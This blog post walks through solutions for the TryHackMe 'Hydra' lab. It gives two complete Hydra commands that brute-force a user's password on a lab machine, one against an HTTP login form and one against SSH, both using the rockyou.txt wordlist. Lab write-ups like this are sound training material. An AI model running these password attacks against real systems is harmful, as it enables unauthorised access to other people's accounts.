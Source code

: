 ```yaml
---
author: "Denis Nu\u021Biu"
categories:
- Security
- Tooling
date: '2020-02-29T23:31:01+00:00'
guid: https://nuculabs.dev/?p=869
id: 869
layout: post
permalink: /2020/02/29/brute-forcing-passwords-with-hydra/
tags:
- bruteforcing
- kali linux
- penetration testing
title: Brute-forcing passwords with Hydra
---
```

Hello,


In this article you will find the solutions for the Hydra room on Try Hack Me.


Link: 


Almost every bruteforcing or cracking task from HackTheBox/TryHackMe uses the rockyou.txt wordlist. You can google it and download it, if you can’t find it in your Kali distro under the path **/usr/share/wordlists/rockyou.txt.gz**


If you’re using Kali then you have Hydra already installed, all you have to do is run two commands:


### Flag 1


Run the following command, the password should be cracked in less than one minute.


```
```
root@kali:~/Desktop# hydra -l molly -P rockyou.txt 10.10.86.187 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
```


### Flag 2


Start bruteforcing the ssh password then logon via ssh as molly to grab the flag.


```
```
root@kali:~/Desktop# hydra -l molly -P rockyou.txt 10.10.86.187 -t 4 ssh
```
```


Thanks for reading!